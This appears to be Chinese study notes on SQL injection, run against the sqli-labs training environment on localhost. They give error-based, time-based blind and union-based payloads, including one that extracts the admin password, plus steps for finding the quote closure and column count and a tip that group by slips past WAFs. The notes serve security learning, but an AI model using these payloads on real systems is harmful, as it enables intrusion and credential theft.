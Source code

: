 基于错误的注入
```
' or 1=1 in (select @@version) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

基于时间的盲注
```
qwe' AND IF (1=1, sleep(3),'false') -- //
```




* * * *

1.先查找注入点 

```mysql
http://localhost/sqli-labs-master/less-1/?id=1 -- -
```

2.判断注入形式
数字型：

```mysql
http://localhost/sqli-labs-master/less-1/?id=1 and 1=1 -- -
http://localhost/sqli-labs-master/less-1/?id=1 and 1=2 -- -
```

如果都可以正常显示那就不是数字型注入 反之 因为1=1和1=2会被运算 如果是字符型那就不会被运算.

3.判断闭合方式
如果是字符型注入 那就一定有闭合方式闭合前面的(引号),常见的闭合方式有以下四种

```mysql
http://localhost/sqli-labs-master/less-1/?id=1' -- -
```

```mysql
http://localhost/sqli-labs-master/less-1/?id=1" -- -
```

```mysql
http://localhost/sqli-labs-master/less-1/?id=1') -- -
```

```mysql
http://localhost/sqli-labs-master/less-1/?id=1") -- -
```

4.查询回显列数 

```mysql
http://localhost/sqli-labs-master/less-1/?id=1' group by 3 -- - / order by 3 
```

这里group by和order by 是差不多的原理 判断出回显列数为后面的注入拿信息
这里还是推荐使用group by 因为基本上绝大多数waf都会过滤order by 但是有一些不会过滤group by

5.查询回显位置

```mysql
http://localhost/sqli-labs-master/less-1/?id=-1' union select 1,2,3 -- -
```
